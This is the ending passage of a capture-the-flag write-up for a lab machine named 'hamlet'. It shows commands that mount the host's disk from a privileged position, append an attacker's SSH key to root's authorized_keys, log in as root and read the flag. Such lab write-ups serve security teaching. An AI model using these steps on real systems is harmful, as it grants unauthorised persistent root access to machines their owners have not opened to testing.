 Mount /dev/dm-0 to see what's inside

```bash
mkdir /mnt/host
mount /dev/dm-0 /mnt/host
ls -l /mnt/host

total 4015216
drwxr-xr-x  2 root root       4096 Sep 15 11:24 bin
drwxr-xr-x  2 root root       4096 Sep 15 11:14 boot
drwxr-xr-x  2 root root       4096 Sep 15 11:15 cdrom
drwxr-xr-x  4 root root       4096 Aug  6  2020 dev
drwxr-xr-x 99 root root       4096 Sep 16 06:43 etc
drwxr-xr-x  5 root root       4096 Sep 15 14:41 home
lrwxrwxrwx  1 root root         34 Sep 15 11:16 initrd.img -> boot/initrd.img-4.15.0-156-generic
lrwxrwxrwx  1 root root         34 Sep 15 11:16 initrd.img.old -> boot/initrd.img-4.15.0-156-generic
drwxr-xr-x 23 root root       4096 Sep 15 11:39 lib
drwxr-xr-x  2 root root       4096 Aug  6  2020 lib64
drwx------  2 root root      16384 Sep 15 11:14 lost+found
drwxr-xr-x  2 root root       4096 Aug  6  2020 media
drwxr-xr-x  3 root root       4096 Sep 15 14:43 mnt
drwxr-xr-x  5 root root       4096 Sep 15 14:46 opt
drwxr-xr-x  2 root root       4096 Apr 24  2018 proc
drwx------  5 root root       4096 Sep 15 14:49 root
drwxr-xr-x 13 root root       4096 Aug  6  2020 run
drwxr-xr-x  2 root root      12288 Sep 15 11:39 sbin
drwxr-xr-x  2 root root       4096 Sep 15 11:31 snap
drwxr-xr-x  4 root root       4096 Sep 15 14:45 srv
-rw-------  1 root root 4111466496 Sep 15 11:16 swap.img
drwxr-xr-x  2 root root       4096 Apr 24  2018 sys
drwxrwxrwt  9 root root       4096 Jan 24 13:28 tmp
drwxr-xr-x 10 root root       4096 Aug  6  2020 usr
drwxr-xr-x 14 root root       4096 Sep 15 14:42 var
lrwxrwxrwx  1 root root         31 Sep 15 11:16 vmlinuz -> boot/vmlinuz-4.15.0-156-generic
lrwxrwxrwx  1 root root         31 Sep 15 11:16 vmlinuz.old -> boot/vmlinuz-4.15.0-156-generic
```

Now all we have to do is to add a public key to the root's authorized_keys :

```bash
echo 'ssh-rsa AAAA[....]=' >> /mnt/host/root/.ssh/authorized_keys

$ ssh root@$ip -i ./id_rsa
root@hamlet:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
hamlet

root@hamlet:~# cat /root/flag
THM{6_redacted}

```

Thanks for reading <3

h3x
